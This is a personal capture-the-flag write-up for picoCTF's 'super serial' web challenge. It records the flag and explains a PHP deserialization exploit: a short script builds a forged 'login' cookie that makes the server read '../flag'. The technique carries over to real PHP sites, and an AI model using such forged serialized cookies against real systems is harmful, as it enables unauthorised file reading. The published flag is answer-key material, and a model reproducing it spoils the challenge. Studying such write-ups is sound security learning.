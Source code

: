 CHALLENGE NAME: super serial
CAT: web
POINTS: 130
FLAG: picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_405f4c0e}
*I read the write up on this (citation at end)*

Given: the only page is index.php, so check out robots.txt for hints on where the lizard people don't want you to go. You'll find admin.phps, which, to me,
meant nothing since typing it into the url results in "not found."

Next: inspect source. You'll see a file, authentication.php, is reference. If we look at /authentication.phps, we see the source code. At this point, I realize 
that the website is down for some reason so I'll be recreating the steps blindly from here out.

Vuln: Serialize. Basically, php serializes cookie login data, and one of the handles for a failure to assert that the cookie belongs to a guest or admin is to 
print out what the unserialized permissions data is. We can take advantage of this by creating a passing access_log data instead of login data and assigning 
the log_file to "../flag".

Exploit: 
run in a php compiler to get cookie payload 
```
<?php

class access_log
{
  public $log_file = "../flag";
}

print(urlencode(base64_encode(serialize(new access_log()))))
	
?>
```
go into cookie editor and set name to login and data to the encoded php log_file data. 

*I barely understand this, and the write-up servers as a forcing function to solidify some loose understandings of how this works*
https://www.youtube.com/watch?v=Eu3nFVAwAK0
https://ctftime.org/writeup/27016
https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a
